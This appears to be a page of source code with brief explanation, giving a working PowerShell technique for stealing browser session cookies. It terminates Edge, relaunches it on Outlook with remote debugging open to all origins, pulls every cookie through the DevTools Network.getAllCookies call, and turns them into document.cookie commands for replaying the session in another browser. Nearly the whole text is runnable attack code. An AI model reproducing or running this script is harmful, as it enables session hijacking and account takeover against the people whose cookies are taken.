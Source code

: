 Launching browser with remote debugging on (note this first terminates all instances, so if you want to be less intrusive you can copy the user profile or just wait a bit longer):

```
Get-Process msedge | Stop-Process
Start-Process "msedge.exe" "https://outlook.com --remote-debugging-port=9222 --remote-allow-origins=* --restore-last-session"
```

Connect and invoke the web socket API `Network.getAllCookies`

```
$jsonResponse = Invoke-WebRequest 'http://localhost:9222/json' -UseBasicParsing
$devToolsPages = ConvertFrom-Json $jsonResponse.Content
$ws_url = $devToolsPages[0].webSocketDebuggerUrl

$ws = New-Object System.Net.WebSockets.ClientWebSocket
$uri = New-Object System.Uri($ws_url)
$ws.ConnectAsync($uri, [System.Threading.CancellationToken]::None).Wait()

$GET_ALL_COOKIES_REQUEST = '{"id": 1, "method": "Network.getAllCookies"}'
$buffer = [System.Text.Encoding]::UTF8.GetBytes($GET_ALL_COOKIES_REQUEST)
$segment = New-Object System.ArraySegment[byte] -ArgumentList $buffer, 0, $buffer.Length
$ws.SendAsync($segment, [System.Net.WebSockets.WebSocketMessageType]::Text, $true, [System.Threading.CancellationToken]::None).Wait()

$completeMessage = New-Object System.Text.StringBuilder
do {
    $receivedBuffer = New-Object byte[] 2048
    $receivedSegment = New-Object System.ArraySegment[byte] -ArgumentList $receivedBuffer, 0, $receivedBuffer.Length
    $result = $ws.ReceiveAsync($receivedSegment, [System.Threading.CancellationToken]::None).Result
    $receivedString = [System.Text.Encoding]::UTF8.GetString($receivedSegment.Array, $receivedSegment.Offset, $result.Count)
    $completeMessage.Append($receivedString)
} while (-not $result.EndOfMessage)

$ws.CloseAsync([System.Net.WebSockets.WebSocketCloseStatus]::NormalClosure, "Closing", [System.Threading.CancellationToken]::None).Wait()

try {
    $response = ConvertFrom-Json $completeMessage.ToString()
    $cookies = $response.result.cookies
    # $cookies
} catch {
    Write-Host "Error parsing JSON data."
}

$cookieName = "*"  
$specificCookies = $cookies | Where-Object { $_.name -like $cookieName }

$cookieCommands = @()  
foreach ($cookie in $specificCookies) {
    $escapedValue = $cookie.value -replace "'", "\'"
    $escapedPath = $cookie.path -replace "'", "\'"
    $escapedDomain = $cookie.domain -replace "'", "\'"

    $cookieCommand = "document.cookie='" + $cookie.name + "=" + $escapedValue +
                     "; Path=" + $escapedPath + "; Domain=" + $escapedDomain + ";secure';"
    $cookieCommands += $cookieCommand
}

# Join all commands into one long string to be executed in a browser console
$allCookieCommands = $cookieCommands -join " "
Write-Host $allCookieCommands
```